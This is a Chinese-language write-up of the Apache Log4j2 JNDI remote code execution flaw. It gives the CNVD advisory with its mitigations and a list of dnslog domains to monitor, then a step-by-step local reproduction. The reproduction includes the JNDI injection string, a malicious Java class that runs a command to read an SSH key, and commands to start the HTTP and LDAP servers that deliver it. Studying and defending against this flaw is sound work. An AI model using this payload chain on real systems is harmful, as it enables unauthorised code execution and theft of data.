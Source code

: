 ### Bug 背景

2021年12月10日，国家信息安全漏洞共享平台（CNVD）收录了Apache Log4j2远程代码执行漏洞（CNVD-2021-95914）。攻击者利用该漏洞，可在未授权的情况下远程执行代码。目前，漏洞利用细节已公开，Apache官方已发布补丁修复该漏洞。CNVD建议受影响用户立即更新至最新版本，同时采取防范性措施避免漏洞攻击威胁。

<details>
<summary>点击此处查看漏洞详情</summary>

一、漏洞情况分析       Apache Log4j是一个基于Java的日志记录组件。Apache Log4j2是Log4j的升级版本，通过重写Log4j引入了丰富的功能特性。该日志组件被广泛应用于业务系统开发，用以记录程序输入输出日志信息。

        2021年11月24日，阿里云安全团队向Apache官方报告了Apache Log4j2远程代码执行漏洞。由于Log4j2组件在处理程序日志记录时存在JNDI注入缺陷，未经授权的攻击者利用该漏洞，可向目标服务器发送精心构造的恶意数据，触发Log4j2组件解析缺陷，实现目标服务器的任意代码执行，获得目标服务器权限。

     CNVD对该漏洞的综合评级为“高危”。

二、漏洞影响范围      漏洞影响的产品版本包括：

      Apache Log4j2 2.0 - 2.15.0-rc1

三、漏洞处置建议      目前，Apache官方已发布新版本完成漏洞修复，CNVD建议用户尽快进行自查，并及时升级至最新版本：

https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

       建议同时采用如下临时措施进行漏洞防范：

1）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

2）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

3）JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；

4）部署使用第三方防火墙产品进行安全防护。

       建议使用如下相关应用组件构建网站的信息系统运营者进行自查，如Apache Struts2、Apache Solr、Apache Druid、Apache Flink等，发现存在漏洞后及时按照上述建议进行处置。

5）限制受影响应用对外访问互联网，并在边界对dnslog相关域名访问进行检测。
   
      部分公共dnslog平台如下：
      - ceye.io
      - dnslog.link
      - dnslog.cn
      - dnslog.io
      - tu4.org
      - burpcollaborator.net
      - s0x.cn

附：参考链接：

https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

</details>


### 复现漏洞

1. 创建 Maven 项目，引入以下 package

   ```xml
   <dependency>
      <groupId>org.apache.logging.log4j</groupId>
      <artifactId>log4j-core</artifactId>
      <version>2.14.1</version>
   </dependency>

   <dependency>
      <groupId>org.apache.logging.log4j</groupId>
      <artifactId>log4j-api</artifactId>
      <version>2.14.1</version>
   </dependency>
   ```

2. resources 文件下创建 log2j.xml 文件，作为 log4j 的配置文件
   
   ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <Configuration>
        <Appenders>
            <Console name="CONSOLE" target="SYSTEM_OUT">
                <PatternLayout pattern="%d %-5p [%t] (%F:%L) - %m%n"/>
            </Console>
        </Appenders>
        <Loggers>
            <Root level="info">
                <AppenderRef ref="CONSOLE"/>
            </Root>
        </Loggers>
    </Configuration>
   ```
   
3. src 文件下创建 Main.java 文件

   ```java
    import org.apache.logging.log4j.Logger;
    import org.apache.logging.log4j.LogManager;
       
    public class Main { 
        private static final Logger logger = LogManager.getLogger(Hack.class);
        public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        logger.error("${jndi:ldap://127.0.0.1:1389/Log4jRCE}");
      }
    }
   ```

4. 在项目外找一个目录创建 `AttackLog4j.java` 文件

   ```java
    public class Log4jRCE {    
    static {
        System.out.println("I am attacker from remote!!!");
        Process p;
        String [] cmd = {"cat", "/Users/hua/.ssh/id_rsa.pub"}; 
        try {
            p = java.lang.Runtime.getRuntime().exec(cmd);
            InputStream fis = p.getInputStream();
            InputStreamReader isr = new InputStreamReader(fis);    
            BufferedReader br = new BufferedReader(isr);    
            String line = null; 
            while((line=br.readLine())!=null) {
                 System.out.println(line);
            }
        }    
        catch (IOException e) {    
             e.printStackTrace();
        }
     }    
   }
   ```
   编译改文件为 class 文件，`javac AttackLog4j.java` 得到 `AttackLog4j.class`;

5. 在 AttackLog4j 文件目录启动 Python HTTP 服务器
   
   ```shell
    python3 -m http.server 8888
    Serving HTTP on :: port 8888 (http://[::]:8888/) ...
   ```
   
6. 本地启动一个 LDAP 服务器

   ```shell
    git clone git@github.com:bkfish/Apache-Log4j-Learning.git
    cd Apache-Log4j-Learning/tools
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
   ```
   
7. 运行 `Main.java`，可以看到服务器输出了日志

   ```shell
    I am attacker from remote!!!
    ssh-rsa sdsdwedQEsdadf4wsdwSD3sdfsdF2sdSDf/sdf3esdfsawssdfw3sfd= hua@abc.com
    2021-12-13 15:56:11,205 ERROR [main] (Main.java:13) - ${jndi:ldap://127.0.0.1:1389/Log4jRCE}
   ```

这段测试没有表面看没有太大的意义，只是输出了服务器的公钥，细想如果更改 AttackLog4j 的代码逻辑，后果可能就很严重了。


### 攻击过程

攻击者在网页表单的输入框里输入注入攻击语句，在提交表单时，被服务器端的Log4j框架作为日志输出，但由于该库的某些解析构造漏洞，会把${}括号中的语句作为命令执行。攻击者的注入攻击语句经过解析会先访问ldap服务器，然后由ldap解析出我们要的文件名为Log4jRCE，ldap向HTTP服务器请求获取这个文件，最后网站服务器在本地实例化并执行这个java类，即攻击者的攻击脚本得到执行。